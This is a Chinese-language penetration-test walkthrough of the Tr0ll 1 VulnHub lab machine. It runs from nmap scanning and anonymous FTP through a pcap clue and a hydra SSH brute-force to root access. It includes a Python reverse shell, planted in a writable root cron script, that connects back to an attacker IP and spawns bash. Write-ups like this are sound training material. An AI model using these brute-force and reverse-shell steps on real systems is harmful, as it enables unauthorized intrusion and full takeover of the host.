[TOC]

# 信息收集

```
arp-scan -l
nmap -p- --min-rate 10000 192.168.174.181 | awk -F ' ' '{print$1}' | awk -F '/' '{print$1}' | tr '\n' ','
```

存在21，22，80端口

- 分别进行TCP详细扫描，端口扫描和UDP扫描

## TCP详细扫描



- 21端口有一个lol.pcap，并且可以匿名登录
- 80端口有一个/secret目录

## 漏洞扫描



- 80端口枚举了/robots.txt和/secret两个目录

## UDP扫描



没有用信息

# 21端口分析

```
ftp 102.168.174.181 -p 21
anonymous
get lol.pcap
```





用wireshark打开发现流量包发现请求下载了一个文件（RETR属于telnet协议命令，作用是下载远程文件）





可以直接保存到本地



- sup3rs3cr3tdirlol这个字符串我感觉比较奇怪，想过当密码用，或者当成一个ftp协议中的文件，但是没想到他是作为一个目录使用的



这个文件下载后发现是一个程序，不能直接运行，尝试看一下从二进制文件里提取可打印 ASCII 字符串

```
strings roflmao
```



发现了一个地址，也把这个当作目录尝试



- 发现了两个文件夹，里面分别有一个文件，看起来像是密码和账户名





直接用wget命令将两个文件下载到本地，再用hydra命令爆破

```
hydra -L which_one_lol.txt -p Pass.txt ssh://192.168.174.181
```

- 这里的Pass.txt是一个密码文件，但是这个文件名本身才是正确密码，这个不知道什么情况



# 提权

发现每次连接上ssh后隔一段时间会断开，并且弹出一些信息



和root有关系，猜测是定时任务

```
find / -writable -type f 2>/dev/null | grep -v sys | grep -v proc
```



同时发现有一些定时任务文件允许我们进行改动，并且cronlog和cleaner.py都是root所有和root组所属



每隔两分钟运行一次cleaner.py

- 编辑这个文件，因为这是一个python文件，所以不能直接使用常见的bash -i

- ```
  import socket,subprocess,os
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.connect(("192.168.174.128",4444))
  os.dup2(s.fileno(),0)
  os.dup2(s.fileno(),1)
  os.dup2(s.fileno(),2)
  subprocess.call(["/bin/bash","-i"])
  ```

  

保存后在本地打开监听



成功拿到root

- 还有一种提权方式，内核提权，直接查看内核版本，使用searchsploit搜索就能找到需要的脚本，直接利用就可以拿到root

也可以参考参考这位大佬的思路[VulnHub-TR0LL: 1靶场实操 - BKNboy - 博客园](https://www.cnblogs.com/BKNboy-Blog/p/18301056/Shooting_Range4)

